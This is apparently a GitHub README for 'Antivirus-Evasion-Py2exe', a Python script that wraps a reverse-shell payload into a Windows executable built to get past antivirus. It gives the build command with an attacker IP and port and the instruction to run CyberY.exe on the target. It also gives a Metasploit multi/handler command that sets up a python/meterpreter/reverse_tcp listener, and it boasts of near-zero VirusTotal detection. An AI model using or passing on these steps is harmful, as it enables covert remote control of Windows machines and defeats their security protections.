 ![GitHub language count](https://img.shields.io/github/languages/count/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub repo size](https://img.shields.io/github/repo-size/0xCyberY/Antivirus-Evasion-Py2exe)
![Lines of code](https://img.shields.io/tokei/lines/github/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub](https://img.shields.io/github/license/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub commit activity](https://img.shields.io/github/commit-activity/w/0xCyberY/Antivirus-Evasion-Py2exe)
![Twitter Follow](https://img.shields.io/twitter/follow/0xCyberY?style=social)

# Antivirus-Evasion-Py2exe
Simple python script to evade antiviruses on fully patched and updated Windows environments using a py2exe.

# Note: This script works only on Windows OS

# Prerequisite:
1. [Install Python 2.7.16 x86 for Windows](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)
2. [Install Py2exe 32 bits for Python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

## Usage:
```
python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443
```

```
C:\>python aepy2exe.py -h
                                Antivirus Evasion Py2exe
 ,.      .                         ,--.                         ;-.      ,-.
/  \     |   o     o               |                o           |  )        )
|--| ;-. |-  . . , . ;-. . . ,-.   |-   . , ,-: ,-. . ,-. ;-.   |-'  . .   /  ,-. . , ,-.
|  | | | |   | |/  | |   | | `-.   |    |/  | | `-. | | | | |   |    | |  /   |-'  X  |-'
'  ' ' ' `-' ' '   ' '   `-` `-'   `--' '   `-` `-' ' `-' ' '   '    `-| '--' `-' ' ` `-'
                                                                     `-'
usage: aepy2exe.py [-h] [-e EXECUTE] [-ip ATTACKER_IP] [-p PORT]

Antivirus Evasion Py2exe

optional arguments:
  -h, --help            show this help message and exit
  -e EXECUTE, --execute EXECUTE
                        execute py2exe
  -ip ATTACKER_IP, --attacker_ip ATTACKER_IP
                        specified attacker IP
  -p PORT, --port PORT  specified attcaker port

Example:
        C:\>python aepy2exe.py -e py2exe -ip <ip_address> -p <port>
        C:\>python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443 
```
``
The script will generate CyberY.py, build, and dist, Our execution file will be under dist.
``
![Output](https://github.com/0xCyberY/Antivirus-Evasion-Py2exe/blob/main/output.png)

In case there is an error such as The system cannot open the device or file specified.
**Try hard!!**
#### Run the CyberY.exe
```
C:\>.\dist\CyberY.exe
```
#### On attacker machine (Kali)
```
┌──(kali㉿kali)-[~]
└─$ sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD python/meterpreter/reverse_tcp; set LPORT 443; set LHOST 192.168.1.10"

msf6 exploit(multi/handler) > exploit
```
# Conclusion
Keep in mind that attempting antivirus bypass is a game. Whenever a new evasion technique gets popular, antivirus vendors will eventually learn about itand update their signatures database to block it. Then, new evasion techniques will a rise, which will make vendors to add it to their signature database, and so on.

By the time of this writing, the payload was flagged as malicious by only one vendor on Virus Total.

![virus_total](https://github.com/0xCyberY/Antivirus-Evasion-Py2exe/blob/main/virus%20total.png)

